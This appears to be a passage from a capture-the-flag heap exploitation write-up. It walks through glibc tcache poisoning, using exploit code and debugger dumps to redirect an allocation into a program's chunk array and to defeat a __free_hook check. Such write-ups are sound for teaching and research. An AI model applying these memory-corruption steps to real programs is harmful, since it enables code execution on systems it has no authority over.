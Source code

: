 ```
Top chunk | PREV_INUSE
Addr: 0x55dc4f7226e0
Size: 0x1e921
```

But in the tcache, on the top of the 0x110 bin is a chunk whos backing memory we completely control from the `unsorted` chunk:

```
tcachebins
0x110 [  2]: 0x55dc4f7209d0 —▸ 0x55dc4f7224d0 ◂— 0x0
```

The key here is that, because earlier we added chunk 9 to the tcache we now have 2 chunks on the bin, which means that if one of them happens to be consumed, the `next` ptr of that chunk will be trusted to contain a real chunk pointer, and this `next` is completely under our control.

Did you get all of that?

## Gloating

Its not too far now...

Now, we overwrite the `next` member of our tcache chunk '2':

```py
alloc(6, 0x2000, b'A'*0x508 + p64(0x111) + p64(pie_base + 0x4060))
alloc(8, 0x100, b'A')
```

Specifically, we overwrite it with the `chunks` array we also overwrite the `free_hook` copy so the check that verifies whether or not `__free_hook` has been overwritten checks a null pointer, and still believes everything is okay. This allows us to call `delete` after we overwrite `__free_hook`, and subsequently call `free()`.

Now once we consume another entry from the tcache we can see this corruption in action:

```
tcachebins
0x110 [  1]: 0x55d4de18f060 (chunks) —▸ 0x55d4e00e44c0 ◂— ...
```

The next element consumed from the tcache will now hand out an allocation that points into the `chunks` array:

```py
    alloc(10, 0x100, p64(heap_base + 0x10) + p64(0)*11 + p64(heap_base + 0x400))
```

This overwrites the entire `chunks` array:

```
                                           V idx '0' now points to the first chunk on the heap - this is where the tcache
                                             `tcache_perthread_struct` struct is stored.
    0x5577491b2060 <chunks>:        0x000055774ad5b010      0x0000000000000000
    0x5577491b2070 <chunks+16>:     0x0000000000000000      0x0000000000000000
    0x5577491b2080 <chunks+32>:     0x0000000000000000      0x0000000000000000
    0x5577491b2090 <chunks+48>:     0x0000000000000000      0x0000000000000000
    0x5577491b20a0 <chunks+64>:     0x0000000000000000      0x0000000000000000
    0x5577491b20b0 <chunks+80>:     0x0000000000000000      0x0000000000000000
    0x5577491b20c0 <free_hook>:     0x000055774ad5b400 <------ we also overwrite a copy of the __free_hook.
```
